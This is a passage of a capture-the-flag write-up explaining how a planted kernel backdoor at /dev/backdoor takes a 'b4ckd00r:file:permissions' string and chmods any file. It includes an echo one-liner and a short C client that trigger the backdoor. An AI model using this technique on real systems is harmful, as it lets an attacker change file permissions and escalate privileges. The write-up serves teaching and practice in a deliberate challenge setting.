 The first string before the first ':' must be 'b4ckd00r' to trigger the functional part of this code.

It then becomes clear that the next item in the ':' delimited string must be a file name, due to the `stat64()` call. Looking further down, the function then `chmod()`'s the file provided with the permissions provided as the third item in the delimited input. 

*Note: the `atoi(third_part)` function does not work with octal, which is what the command line `chmod` tool takes as input. Instead, when forming our request to the backdoor, we must send the decimal form of the octal permissions. For instance, if we wanted a file with 777 permissions, we would use 511 in this case.*

Once a shell was obtained, we originally tried writing to the device at `/dev/backdoor`:

![bad echo](bad_echo.png)

The write error kind of threw us off.

Fast forward to after we got the flag, we realized the write error was from the error that was thrown by the backdoor on bad input. So if we had tested with something like `echo "b4ckd00r:/etc/hosts:511" > /dev/backdoor`, it would have worked just fine.

**But, since we didn't realize this, here is how we made the process vastly more complicated than it should have been:**

First, we made a [small C program](./connect.c) that would take a file path and decimal permission value to activate the backdoor and `chmod` a file:

```c
/*
 * connect.c - use zer0pts backdoor
*/
#include <fcntl.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/ioctl.h>

int main(int argc, char* argv[]) {
    if (argc < 3) {
        printf("Incorrect usage\nusage: %s [file] [permissions]\n",argv[0]);
        return -1;
    }
    char readbuf[256];
    char* cmd = NULL;
    asprintf(&cmd,"b4ckd00r:%s:%s",argv[1],argv[2]);
    printf("sending %s\n",cmd);
    int fd = open("/dev/backdoor", O_RDWR);
    if (fd < 0) {
        printf("ERROR opening device\n");
        return -1;
    }
    write(fd,cmd,strlen(cmd));
    read(fd,readbuf,256);
    printf("got: %s\n",readbuf);
    close(fd);
    return 0;
}
```
